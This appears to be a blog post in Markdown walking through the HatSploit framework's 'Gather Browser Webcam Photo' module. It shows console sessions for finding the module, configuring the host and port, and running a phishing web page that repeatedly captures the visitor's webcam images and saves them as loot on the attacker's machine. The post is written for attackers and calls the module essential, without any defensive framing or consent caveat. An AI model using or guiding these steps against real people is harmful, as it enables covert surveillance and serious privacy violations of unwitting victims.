 ```yaml
---
title: Webcam Photo Phishing
categories: [Exploitation]
tags: [hatsploit, phishing]
author: enty8080
---
```


Phishing is a common technique used by attackers to gain access to sensitive information through methods like social engineering. Attackers often attempt to obtain credentials, password hashes, location data, and other critical information by tricking users into revealing this data.

In the HatSploit Framework, EntySec has implemented several modules specifically designed to target a victim’s webcam. These modules allow attackers to take a photo using the target's webcam through a browser and save the captured image as loot on the attacker's machine. Additionally, attackers can stream the webcam footage in real-time. These modules are named `exploit/generic/gather/browser_webcam_photo` and `exploit/generic/gather/browser_webcam_stream`.

Here’s how you can access and use these modules:

```entysec
[hsf3]> search webcam

Modules:

    Number    Category    Module                                          Rank    Name
    0         exploit     exploit/generic/gather/browser_webcam_photo     low     Gather Browser Webcam Photo
    1         exploit     exploit/generic/gather/browser_webcam_stream    low     Gather Browser Webcam Stream
```

## Using the module

Once you have identified the desired module, you can use it within the HatSploit Framework and set the appropriate options.

For example, to use the `Gather Browser Webcam Photo` module:

```entysec
[hsf]> use 0
[hsf3: Gather Browser Webcam Photo]> info

    Name: Gather Browser Webcam Photo
  Module: exploit/generic/gather/browser_webcam_photo
Platform: generic
    Rank: low

Authors:
  Ivan Nikolskiy (enty8080) - module developer

Description:
  This module generates a webpage that, when accessed by a victim, attempts to capture an image using the built-in webcam and send it to the attacker.

References:
  URL: https://blog.entysec.com/2022-03-13-webcam-photo-phishing/

Stability:
  This module is stable and does not crash the target.
```

## Configuring the module

You will need to configure several options before running the module:

```entysec
[hsf3: Gather Browser Webcam Photo]> options

Module Options (exploit/generic/gather/browser_webcam_photo):

    Option     Value                                          Required    Description
    HOST                                                      yes         HTTP host.
    MESSAGE    Grant Access                                   yes         Message to display.
    PATH       /Users/felix/.hsf/loot/zIlWzaKkC9x28XX7.png    yes         Path to save file.
    PORT       80                                             yes         HTTP port.
    SSL        no                                             no          Use SSL.
    TIMEOUT    10                                             no          Connection timeout.
    URLPATH    /                                              yes         File path on server.
```

## Running the module

After configuring the options, you can start the web server and wait for the victim to access the malicious webpage. The module will continue to capture images from the victim’s webcam until it is manually interrupted.

Here’s an example:

```entysec
[hsf3: Gather Browser Webcam Photo]> set host localhost
[i] host => localhost
[hsf3: Gather Browser Webcam Photo]> set port 8080
[i] port => 8080
[hsf3: Gather Browser Webcam Photo]> run

[*] Starting HTTP listener on port 8080...
[*] Delivering payload...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[*] Taking webcam photo...
[!] Exploit module interrupted.
```

This module will continue to capture and update the photo file saved in the loot directory until you stop it manually with keyboard interrupt (Ctrl-C).

By utilizing this module, attackers can gain access to sensitive webcam data through the use of phishing techniques, making it an essential tool in the HatSploit Framework.
